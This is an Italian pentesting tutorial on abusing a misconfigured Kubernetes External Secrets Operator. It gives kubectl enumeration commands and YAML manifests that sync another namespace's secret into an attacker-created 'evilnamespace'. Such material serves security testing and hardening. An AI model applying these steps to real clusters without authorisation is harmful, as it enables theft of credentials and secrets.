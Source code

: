 # Operatore di Secret Esterni

**L'autore originale di questa pagina è** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Questa pagina fornisce alcuni suggerimenti su come è possibile riuscire a rubare segreti da un ESO mal configurato o da un'applicazione che utilizza ESO per sincronizzare i suoi segreti.

## Avvertenza

La tecnica mostrata di seguito può funzionare solo quando sono soddisfatte determinate circostanze. Ad esempio, dipende dai requisiti necessari per consentire a un segreto di essere sincronizzato in uno spazio dei nomi di tua proprietà / compromesso. Devi risolverlo da solo.

## Prerequisiti

1. Una presa in un cluster kubernetes / openshift con privilegi di amministratore su uno spazio dei nomi
2. Accesso in lettura almeno a ExternalSecret a livello di cluster
3. Scoprire se sono necessari etichette / annotazioni o appartenenza a gruppi che consentono a ESO di sincronizzare il tuo segreto. Se sei fortunato, puoi rubare liberamente qualsiasi segreto definito.

### Raccolta di informazioni sui ClusterSecretStore esistenti

Supponendo che tu abbia un utente con sufficienti diritti per leggere questa risorsa; inizia elencando prima i _**ClusterSecretStores**_ esistenti.
```sh
kubectl get ClusterSecretStore
```
### Enumerazione di ExternalSecret

Supponiamo di aver trovato un ClusterSecretStore chiamato _**mystore**_. Continua enumerando i suoi external secret associati.
```sh
kubectl get externalsecret -A | grep mystore
```
_La risorsa è limitata allo spazio dei nomi, quindi a meno che tu non sappia già in quale spazio dei nomi cercare, aggiungi l'opzione -A per cercare in tutti gli spazi dei nomi._

Dovresti ottenere un elenco degli externalsecret definiti. Supponiamo tu abbia trovato un oggetto externalsecret chiamato _**mysecret**_ definito e utilizzato dallo spazio dei nomi _**mynamespace**_. Raccogli ulteriori informazioni su che tipo di segreto contiene.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assemblaggio dei pezzi

Da qui puoi ottenere il nome di uno o più nomi segreti (come definito nella risorsa Secret). Otterrai un output simile a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
```html
<p>Finora abbiamo ottenuto:</p>

<ul>
<li>Nome di un ClusterSecretStore</li>
<li>Nome di un ExternalSecret</li>
<li>Nome del segreto</li>
</ul>

<p>Ora che abbiamo tutto ciò di cui abbiamo bisogno, puoi creare un ExternalSecret (e eventualmente patch/creare un nuovo Namespace per soddisfare i prerequisiti necessari per sincronizzare il tuo nuovo segreto):</p>
```
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Dopo alcuni minuti, se le condizioni di sincronizzazione sono state soddisfatte, dovresti essere in grado di visualizzare il segreto rivelato all'interno del tuo namespace.
```sh
kubectl get secret leaked_secret -o yaml
```
## Riferimenti

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
